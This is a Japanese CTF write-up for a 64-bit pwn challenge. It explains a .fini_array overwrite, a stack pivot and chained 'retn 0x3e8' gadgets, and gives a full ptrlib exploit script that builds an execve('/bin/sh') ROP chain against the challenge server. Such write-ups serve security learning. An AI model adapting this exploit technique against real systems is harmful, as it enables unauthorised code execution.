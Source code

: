 # [pwn 1000pts] revenge - Newbie CTF 2019
64ビットでstatically linkedで、canaryとDEPが有効です。
```
$ checksec -f revenge
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No      0               0       revenge
```
任意のアドレスに0x19バイト書き込めます。PIEが無効なのでexit系の処理を書き換える問題ですね。
mainが終了する前にcanaryの2バイト目を書き換えたアドレスの最下位バイトで書き換えています。
```
canary[1] = address & 0xff;
```
基本的にクラッシュしちゃうのですが、とりあえず256回くらい試せば1回くらいは落ちないので無視します。

とりあえずセオリー通りに`.fini_array`を書き換えましょう。`__libc_csu_fini`ではrbpに`.fini_array`を入れてcallするので、呼び出し先をleave retに変えればrspを`.fini_array + 8`に変更でき、ROPに持ち込めます。
また、`.fini_array[0]`を`__libc_csu_fini`, `.fini_array[1]`を`main`にすれば何度でも書き換えできます。
といっても問題があり、canaryをbypassしないとダメなので書き換えられるアドレスが限られています。`.fini_array`は0x6d1150にあるので、下位1バイトが0x50であるようなアドレスしか書き換えられません。したがって、ROP chainは0x10バイトまでしか書き込めず、もちろんこれだけでは何もできません。

そこで、retn gadgetを使います。いい感じのものを探したところ、`retn 0x3e8;`がありました。これで0x400バイト先のgadgetを実行できます。
retn gadgetはrspを移してからretするのではなく、retしてからrspを移すのでretnの次のgadgetを用意しないといけないことに注意してROP chainを作ります。
```python
from ptrlib import *
import time

rop_leave_ret = 0x400cc3
rop_retn_3e8 = 0x00463567
rop_ret = 0x0040042e
rop_pop_rax = 0x00415764
rop_pop_rdx = 0x0044bee6
rop_pop_rsi = 0x004103b3
rop_pop_rdi = 0x004006f6
rop_syscall = 0x0040133c

addr_fini = 0x401a40
addr_fini_array = 0x6d1150
addr_main = 0x400c00
addr_stack = 0x6d1160
addr_binsh = 0x6d1250

def overwrite(addr, data):
    assert addr & 0xff == 0x50
    sock.sendline(str(addr))
    sock.send(data)
    sock.recvline()
    return

while True:
    #sock = Process("./revenge")
    sock = Socket("prob.vulnerable.kr", 20037)

    overwrite(addr_fini_array, p64(addr_fini) + p64(addr_main))
    if b'***' in sock.recvline(timeout=0.5):
        sock.close()
        continue

    logger.info("OK. sending payload...")
    overwrite(addr_binsh,
              b"/bin/sh\x00")
    overwrite(addr_fini_array + 0x400 * 4,
              p64(addr_binsh) + p64(rop_retn_3e8) + p64(rop_syscall))
    overwrite(addr_fini_array + 0x400 * 3,
              p64(0) + p64(rop_retn_3e8) + p64(rop_pop_rdi))
    overwrite(addr_fini_array + 0x400 * 2,
              p64(0) + p64(rop_retn_3e8) + p64(rop_pop_rdx))
    overwrite(addr_fini_array + 0x400,
              p64(0x3b) + p64(rop_retn_3e8) + p64(rop_pop_rsi))
    overwrite(addr_fini_array,
              p64(rop_leave_ret) + p64(rop_retn_3e8) + p64(rop_pop_rax))
    sock.interactive()
    exit(0)
```

# 感想
面白かったです。
